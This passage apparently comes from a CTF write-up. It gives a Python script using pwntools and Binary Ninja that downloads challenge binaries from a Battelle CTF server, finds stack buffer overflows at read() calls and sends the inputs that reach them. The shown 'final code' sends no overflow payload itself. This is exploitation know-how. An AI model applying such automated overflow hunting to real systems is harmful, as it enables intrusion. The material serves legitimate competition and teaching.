 Sending that gives us `YOU FOUND THE HOLY GRAIL!` and the dump of the next binary.

# Repeat all 5 times
Repeating is easy, just put everything in a loop and add `context.log_level = "debug"`
This must be needed because it correctly buffers the data.

Final code:
```py
from pwn import *
from binaryninja import BinaryViewType, RegisterValueType, MediumLevelILOperation

def find_vuln(binary_path):
	bv = BinaryViewType.get_view_of_file(binary_path)
	read = bv.get_functions_by_name("read")[0]
	for ref in bv.get_code_refs(read.start):
		hlil = ref.function.get_llil_at(ref.address).hlil
		dest_buff = ref.function.get_parameter_at(ref.address,None,1)
		if dest_buff.type == RegisterValueType.StackFrameOffset:
			# buffer is on the stack
			stack_frame_size = abs(dest_buff.value)
			nbytes = ref.function.get_parameter_at(ref.address,None,2).value
			if nbytes > stack_frame_size:
				print(f"[!] Overflow at {hex(ref.address)}: {hlil}")
				print(f"\tBuffer size: {stack_frame_size}\n\tRead Size: {nbytes}")
				return bv,stack_frame_size, ref.address

def get_inputs(bv,vuln_address,inputs):
	func = bv.get_functions_containing(vuln_address)[0]
	ref = next(bv.get_code_refs(func.start))
	mlil_index = ref.function.get_llil_at(ref.address).mlil.instr_index
	for mlil_instruction in ref.function.mlil_instructions:
		if mlil_instruction.operation == MediumLevelILOperation.MLIL_IF:
			if mlil_index == mlil_instruction.false:
				param = mlil_instruction.hlil.operands[0].operands[0].params[0]
				addr = bv.reader().read32(param.operands[0].constant)
				data_string = bv.get_ascii_string_at(addr,min_length=3).value.encode()
			else:
				data_string = b"g"
			inputs.append(data_string)
			return get_inputs(bv,ref.address,inputs)
  
io = remote("ctf.battelle.org", 30042)
[io.readline() for _ in range(5)]
for x in range(5):
	binary = io.readuntil(b"********************************",drop=True)
	with open(f"binary{x}","wb") as f:
		f.write(binary)
	bv,size,vuln_address = find_vuln(f"./binary{x}")
	inputs = []

	get_inputs(bv,vuln_address,inputs)
	inputs = inputs[::-1]
	print("[!] Inputs required: ",inputs)  

	context.binary = elf = ELF(f"./binary{x}")
	context.log_level = "debug"
	# io = elf.process()
	# gdb.attach(io)

	for inpt in inputs:
		io.sendline(inpt)
		io.clean()

```